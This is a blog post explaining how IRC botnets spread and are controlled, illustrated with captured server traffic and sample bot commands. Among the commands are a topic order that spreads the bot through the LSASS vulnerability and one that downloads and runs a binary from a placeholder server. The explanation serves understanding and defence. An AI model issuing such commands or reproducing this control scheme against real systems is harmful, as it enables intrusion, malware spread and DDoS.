 ```yaml
---
layout: post
title:  "How Bots and Botnets work"
date:   2015-12-03 10:21:50
categories: anatomy
---
```


This section will in detail explain how bots spread and how they are controlled by their masters.

After successful exploitation, a bot uses Trivial File Transfer Protocol (TFTP), File Transfer Protocol (FTP), HyperText Transfer Protocol (HTTP), or CSend (an IRC extension to send files to other users, comparable to DCC) to transfer itself to the compromised host. The binary is started, and tries to connect to the hard-coded master IRC server. Often a dynamic DNS name is provided rather than a hard coded IP address, so the bot can be easily relocated. Some bots even remove themselves if the given master server is localhost or in a private subnet, since this indicates an unusual situations. Using a special crafted nickname like EU\|743634 or [UrX]-98439854 the bot tries to join the master's channel, sometimes using a password to keep strangers out of the channel. A typical communication that can be observed after a successful infection looks like:

{% highlight irc %}
<- :irc1.XXXXXX.XXX NOTICE AUTH :*** Looking up your hostname...
<- :irc1.XXXXXX.XXX NOTICE AUTH :*** Found your hostname
-> PASS secretserverpass
-> NICK [urX]-700159
-> USER mltfvt 0 0 :mltfvt
<- :irc1.XXXXXX.XXX NOTICE [urX]-700159 :*** If you are having problems connecting due to ping timeouts, please type /quote pong ED322722 or /raw pong ED322722 now.
<- PING :ED322722
-> PONG :ED322722
<- :irc1.XXXXXX.XXX 001 [urX]-700159 :Welcome to the irc1.XXXXXX.XXX IRC Network [urX]-700159!mltfvt@nicetry
<- :irc1.XXXXXX.XXX 002 [urX]-700159 :Your host is irc1.XXXXXX.XXX, running version Unreal3.2-beta19
<- :irc1.XXXXXX.XXX 003 [urX]-700159 :This server was created Sun Feb  8 18:58:31 2004
<- :irc1.XXXXXX.XXX 004 [urX]-700159 irc1.XXXXXX.XXX Unreal3.2-beta19 iowghraAsORTVSxNCWqBzvdHtGp lvhopsmntikrRcaqOALQbSeKVfMGCuzN
{% endhighlight %}

Afterwards, the server accepts the bot as a client and sends him RPL_ISUPPORT, RPL_MOTDSTART, RPL_MOTD, RPL_ENDOFMOTD or ERR_NOMOTD. Replies starting with RPL_ contain information for the client, for example RPL_ISUPPORT tells the client which features the server understands and RPL_MOTD indicates the Message Of The Day (MOTD). In contrast to this, ERR_NOMOTD is an error message if no MOTD is available. 

On RPL_ENDOFMOTD or ERR_NOMOTD, the bot will try to join his master's channel with the provided password:

{% highlight shell %}
-> JOIN #botnet channelpassword
-> MODE [urX]-700159 +x
{% endhighlight %}

The bot receives the topic of the channel and interprets it as a command:
{% highlight shell %}
<- :irc1.XXXXXX.XXX 332 [urX]-700159 #botnet :.advscan lsass 200 5 0 -r -s
<- :[urX]-700159!mltfvt@nicetry JOIN :#botnet
<- :irc1.XXXXXX.XXX MODE #botnet +smntuk channelpassword
{% endhighlight %}
Most botnets use a topic command like:

**1.**	`".advscan lsass 200 5 0 -r -s"`

**2.**	`".http.update http://<server>/~mugenxu/rBot.exe c:\msy32awds.exe 1"`

The first topic tells the bot to spread further with the help of the LSASS vulnerability[1]. 200 concurrent threads should scan with a delay of 5 seconds for an unlimited time (parameter 0). The scans should be random (parameter -r) and silent (parameter -s), thus avoiding too much traffic due to status reports. In contrast to this, the second example of a possible topic instructs the bot to download a binary from the web and execute it (parameter 1). And if the topic does not contain any instructions for the bot, then it does nothing but idling in the channel, awaiting commands. That is fundamental for most current bots: They do not spread if they are not told to spread in their master's channel.
Upon successful exploitation the bot will message the owner about it, if it has been advised to do so.

*Reference* [LSASS vulnerability](https://technet.microsoft.com/library/security/ms04-011)[1]

{% highlight irssi %}
-> PRIVMSG #botnet :[lsass]: Exploiting IP: 200.124.175.XXX
-> PRIVMSG #botnet :[TFTP]: File transfer started to IP: 200.124.175.XXX (C:\WINDOWS\System32\NAV.exe).
{% endhighlight %}

Then the IRC server (also called IRC daemon, abbreviated IRCd) will provide the channels userlist. But most botnet owners have modified the IRCd to just send the channel operators to save traffic and disguise the number of bots in the channel.

{% highlight shell %}
<- :irc1.XXXXXX.XXX 353 [urX]-700159 @ #botnet :@JAH
<- :irc1.XXXXXX.XXX 366 [urX]-700159 #botnet :End of /NAMES list.
<- :irc1.XXXXXX.XXX NOTICE [urX]-700159 :BOTMOTD File not found
<- :[urX]-700159 MODE [urX]-700159 :+x
{% endhighlight %}

The controller of a botnet has to authenticate himself to take control over the bots. This authentication is done with the help of a command prefix and the "auth" command. The command prefix is used to login the master on the bots and afterwards he has to authenticate himself. For example,

{% highlight shell %}
.login leet0
.la plmp -s
{% endhighlight %}


are commands used on different bots to approve the controller. Again, the "-s" switch in the last example tells the bots to be silent when authenticating their master. Else they reply something like

{% highlight shell %}
[MAIN]: Password accepted.
[r[X]-Sh0[x]]: .:( Password Acepted ):. .
{% endhighlight %}

which can be a lot of traffic if you have 10,000 bots on your network. Once an attacker is authenticated, they can do whatever they want with the bots: Searching for sensitive information on all compromised machines and DCC-sending these files to another machine, DDoS-ing individuals or organizations, or enabling a keylogger and looking for PayPal or eBay account information. These are just a few possible commands, other options have been presented in the previous section. The IRC server that is used to connect all bots is in most cases a compromised box. This is probably because an attacker would not receive operator-rights on a normal chat network and thus has to set-up their own IRC server which offers more flexibility.

Two different IRC servers software implementation are commonly used to run a botnet: Unreal IRCd and ConferenceRoom:

* **Unreal IRCd[2]**

	It's cross-platform and can thus be used to easily link machines running Windows and Linux. The IRC server software is stripped down and modified to fit the botnet owner’s needs.
	Common modifications we have noticed are stripping "JOIN", "PART" and "QUIT" messages on channels to avoid unnecessary traffic. In addition, the messages "LUSERS" (information about number of connected clients) and "RPL_ISUPPORT" are removed to hide identity and botnet size. 
	Size comes in great value given that botnet with over 80k+ bots are used by cyber criminals for "professional" attacks probably being to most profitable of uses for botnets, also the riskier. These kind of networks can cause severe damage since they offer a lot of bandwidth and many targets for identity theft.
	
	*Reference*: [Unreal IRCd](http://www.unrealircd.com/)[2]

* **ConferenceRoom[3]**

	It's a commercial IRCd solution, but people who run botnets typically use a cracked version. ConferenceRoom offers the possibility of several thousand simultaneous connections, with nickname and channel registration, buddy lists and server to server linking.
	Since the people who run botnets often share the same motives (DDoS attacks or other crimes) every bot family has its own set of commands to implement the same goals. Agobot is really nice here: Just grep the source for RegisterCommand and get the whole command-list with a complete description of all features. Due to the lack of clean design, the whole SDBot family is harder to analyse. Often the command set is changed in various forks of the same bot and thus an automated analysis of the implemented commands is nearly impossible. 

	*Reference*: [ConferenceRoom](http://www.webmaster.com/) [3]